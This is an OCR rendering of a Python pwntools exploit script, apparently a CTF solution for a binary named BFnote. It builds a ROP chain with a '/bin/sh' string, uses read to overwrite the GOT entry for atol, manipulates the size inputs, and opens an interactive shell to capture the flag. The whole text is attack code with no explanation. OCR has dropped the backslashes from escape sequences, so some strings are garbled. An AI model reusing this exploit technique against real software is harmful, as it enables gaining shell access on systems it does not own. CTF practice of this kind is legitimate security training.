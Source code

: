 ```

if __name__ == "__main__":
    sh = get_sh()
    p___ret  = 0x080489db
    pp__ret  = 0x080489da
    ppp_ret  = 0x080489d9
    binsh_a  = 0x0804A060
    read_md  = 0x0804A068

    payload  = '/bin/shx00'
    payload  = payload.ljust(0x200,'x00')

    payload += p32(p___ret)
    payload += p32(BFnote.got['atol'] + 1 + 0x17fA8b40)

    payload += p32(0x08048434) * 0xDB

    payload += p32(BFnote.plt['read'])
    payload += p32(ppp_ret)
    payload += p32(0)                                  # fd
    payload += p32(BFnote.got['atol'])                 # buf
    payload += p32(1)                                  # size

    payload += p32(BFnote.plt['atol'])
    payload += p32(p___ret)
    payload += p32(binsh_a)                            

    sh.recvuntil('nGive your description : ')
    sh.sendline('A' * 0x32 + 'AAAA' + p32(0) + p32(0x804A260 + 4))
    sh.recvuntil('Give your postscript : ')
    sh.sendline(payload)
    sh.recvuntil('nGive your notebook size : ')
    sh.sendline(str(int(0x24000)))
    sh.recvuntil('Give your title size : ')
    sh.sendline(str(int(0x2570C - 0x10)))
    sh.recvuntil('invalid ! please re-enter :n')
    sh.sendline(str(int(0x10)))
    sh.recvuntil('nGive your title : ')
    sh.sendline('x00' * 0xF)
    sh.recvuntil('Give your note : ')
    sh.send('A' * 4)

    raw_input('&gt;')
    sh.send('xA0')

    sh.interactive()
    flag=get_flag(sh)
    log.success('The flag is '+flag)
```

